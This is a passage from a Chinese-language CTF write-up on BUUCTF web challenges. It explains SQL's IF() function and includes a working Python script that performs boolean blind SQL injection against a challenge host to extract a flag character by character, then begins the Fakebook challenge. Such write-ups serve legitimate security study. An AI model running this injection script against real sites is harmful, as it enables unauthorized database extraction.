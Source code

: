 提交上述内容,返回了`id=1`时的结果 (如果`if`语句的值为1,则整体语句为`1=1`,值为`True`,也就会返回`id=1`时的查询内容,如果`if`语句的值为0,则整体语句为`1=0`,值为`False`)

>**`sql`中的`if`语句: `IF( expr1 , expr2 , expr3 )`**
>
>**如果`exp1`的值为`True`,则返回`expr2`**
>
>**如果`exp1`的值为`False`,则返回`expr3`**



利用这一点,可以使用脚本来进行盲注

```python
import requests
import string
import time
chars = "qwertyuioplkjhgfdsazxcvbnm1234567890}{"  # 返回所有可打印的字母，数字，符号的集合
# print(chars)
base_url = "http://38133c0f-4b3f-4bb9-b42b-e25804a8ce2b.node4.buuoj.cn:81/index.php"
session = requests.session()
flag = ''
for i in range(1,60):

    for c in chars:
        time.sleep(1) #防止429
        query = '1=if(ascii(substr((select(flag)from(flag)),{},1))={},1,0)'.format(i, ord(c))
        print(query)
        data = {
            'id': query
        }
        response = session.post(base_url,data=data).text
        if 'glzjin' in response:
            flag = flag+c
            print(flag)
            break
```





<br>

***

<br>

# [网鼎杯 2018]Fakebook

进去有一个注册页面,分别是`username`,`password`,`age`和`blog`三项,随便填写内容后提交显示`blog not valid`

那这里`blog`可能是要填一个博客的网址,尝试填写`www.baidu.com`,注册通过

<img src="/images/buuctf-web/image-20221018120804283-166704781973583.png" alt="image-20221018120804283" style="zoom:67%;" />